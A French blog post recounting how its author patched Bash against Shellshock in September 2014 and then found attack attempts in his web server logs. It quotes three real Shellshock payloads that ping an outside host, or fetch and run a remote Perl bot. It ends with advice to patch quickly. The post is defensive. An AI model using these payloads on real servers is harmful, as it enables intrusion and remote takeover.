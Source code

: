 ---
layout: post
title: Shellshock, c'est passé à un cheveu
tags: serveur bash
---
:toc:
:toc-title: Table des matières

Retour à hier matin, jeudi 25/9 matin, 9h05, Paris, France.

Comme tous les jours, je rafraîchis mon aggrégateur RSS en marchant vers le métro, et je lis vite tous les titres pour pré-charger les articles à lire avant que je n'aie quasiment plus de connectivité en entrant dans les boîtes à sardine.

Sur Arstechnica, il y a l'article suivant link:http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/[Bug in Bash shell creates big security hole on anything with \*nix in it]. *scroll* *scroll* *scroll* ... 5 secondes de lecture en diagonale, et je capte "exploitable à distance" et "pleins de manières de le déclencher" (web server, dhcp, login, etc etc).

C'est du lourd, et facile à déclencher : ça fait donc environ 10-12h que "c'est connu", il faut réagir très vite. *Si c'est pas déjà trop tard !*

== Patch et re-patch

Je m'arrête de marcher, histoire de garder du réseau. Je dégaine link:https://play.google.com/store/apps/details?id=org.connectbot[ConnectBot] pour me connecter sur mon serveur chez OVH, puis sur mon serveur de fichier à domicile.

Cing minutes après, il est 9h14, et mes serveurs et VM sont patchées.

	Start-Date: 2014-09-25  09:14:53
	Commandline: apt-get dist-upgrade -y
	Upgrade: bash:amd64 (4.2+dfsg-0.1, 4.2+dfsg-0.1+deb7u1)
	End-Date: 2014-09-25  09:15:04

A noter que j'ai commencé par les serveurs web, les articles reprenant l'utilisation d'appels CGI comme exemple principal : logique, c'est le point d'entrée le plus "facilement accessible".

Je continue mon chemin et ma journée en pensant "*job's done*" (link:https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271[CVE-2014-6271])

Retour à ce matin, vendredi 26/9, 9h20 à Paris. Comme hier, je rafraîchis ma brouette de RSS, et là *ouch*, un autre article link:http://arstechnica.com/security/2014/09/concern-over-bash-vulnerability-grows-as-exploit-reported-in-the-wild/[Arstechnica]. Ils n'ont pas l'habitude de faire plusieurs articles pour le plaisir, alors je l'ouvre tout de suite, ça sent mauvais...

Grand bien me fasse, j'apprends que :

* le premier patch n'a bouché le trou des variables d'environnement
* le premier bug est déjà massivement exploité dans la nature

Pire encore :

* il restait deux bugs de link:https://fr.wikipedia.org/wiki/D%C3%A9passement_de_tampon[Buffer overrun] exploitables (qui viennent d'être patchés)
* je ne sais pas encore si ces deux bugs sont déjà exploités (plus compliqué que le premier, donc j'évalue *a priori* que non)

Il est 9h39, et à nouveau, mes serveurs et VM sont à jour (à nouveau, je commence par les serveurs web). Ca y est, c'est bon le deuxième bug sus-cité est lui aussi patché (link:https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169[CVE-2014-7169])

	Start-Date: 2014-09-26  09:39:04
	Upgrade: bash:amd64 (4.2+dfsg-0.1+deb7u1, 4.2+dfsg-0.1+deb7u3)
	End-Date: 2014-09-26  09:39:11

Bon, à nouveau, je me dis "ok, tout est sous contrôle". Mais je me dis aussi que c'est suffisement mauvais (et j'ai été suffisement lent hier) pour qu'il y ait un risque que j'aie été infecté... ça vaudrait la peine de regarder dans les logs.

== C'est passé à un cheveu ?

Après avoir lu dans le métro  les commentaires d'un article link:http://slashdot.org/story/14/09/25/1757208/flurry-of-scans-hint-that-bash-vulnerability-could-already-be-in-the-wild[slashdot] sur le sujet, je décide de vérifier si mon/mes serveurs web ont été ciblés par les tentatives d'attaque du premier bug.

A noter que mon serveur est un serveur personnel à très petit traffic, et donc il n'y a donc que peu de chance que je sois une cible "privilégiée", mais par contre il y a toutes les chances que je me prenne des tentatives.

Et clairement c'est le cas, j'ai reçu des attaques !

Le premier attaquant est arrivé 3h20 après que j'ai patché (*soit seulement 13h après l'article !*)

	89.207.135.125
	 [25/Sep/2014:12:37:09 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.0"
	   "() { :;};
	    /bin/ping -c 1 198.101.206.138"

Je n'étais déjà plus vulnérable, mais dans tous les cas sa première action a été de simplement vérifier si mon serveur était vulnérable (auquel cas j'aurais envoyé un ping à une de ses machines). C'est une bonne manière de "camoufler ses traces" : les machines vulnérables n'ont aucune information sur "ce qui se serait passé si j'étais vulnérable".

Le deuxième attaquant est arrivé 11h après que j'ai patché (24h après l'article)

	82.165.144.187
	 [25/Sep/2014:20:23:17 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.1"
	   "() { :; };
	    /usr/bin/wget 82.165.144.187/bbbbbbbbbbbb"

Il a aussi tenté d'exploiter le premier bug, et pour ce faire a tenté de faire télécharger un fichier à mon serveur. Actuellement, j'obtiens une erreur 404, donc soit le fichier n'est plus disponible, soit l'attaquant utilise une requête HTTP plutôt qu'un ping pour recenser les cibles vulnérables.

Le troisième attaquant est arrivé ce matin, et était bien plus évolué et offensif que les précédent :

	63.131.141.125
	 [26/Sep/2014:04:15:47 +0200]
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	   "() { :;};
	    /bin/bash -c \"
	     wget -O /var/tmp/wow1 208.118.61.44/wow1;
	     perl /var/tmp/wow1;
	     rm -rf /var/tmp/wow1\" "

Alors là : d'une part il essaie plusieurs URL afin de déclencher un process CGI, et d'autre part il essaie d'infecter sans phase de recensement : en effet, il upload un script perl, l'exécute et nettoie derrière lui. Pour information, le script Perl en question est visible sur link:http://pastebin.com/wZb9L2CW[PasteBin].

Il s'agit d'un client IRC qui permet de

* récupérer des infos système de la cible
* flooder/scanner les réseaux voisins
* de récupérer des fichiers du serveur
* envoyer du mail
* et bien sûr exécuter n'importe quel programme

Bref, simple mais efficace.

== La morale de cette histoire ?

J'ai eu de la chance... car il n'aura fallu que 13h après la publication d'une faille et que je voie de vraies tentatives arriver, et j'ai pu patcher entre temps.

Mon conseil ?

* Même si on y comprend rien, se tenir informé permet de gagner du temps
* Toujours patcher son système *rapidement*, car "quelques heures" c'est déjà long !

Il existe des outils qui regardent si des mises à jour sont disponibles (link:http://www.debian-administration.org/article/491/Automatic_package_update_nagging_with_apticron[apticron] par exemple) : ils sont extrêmement utiles pour être prévenus des upgrades dispo, **et** pour savoir s'il est urgent ou pas de les installer. C'est bien, mange-en !
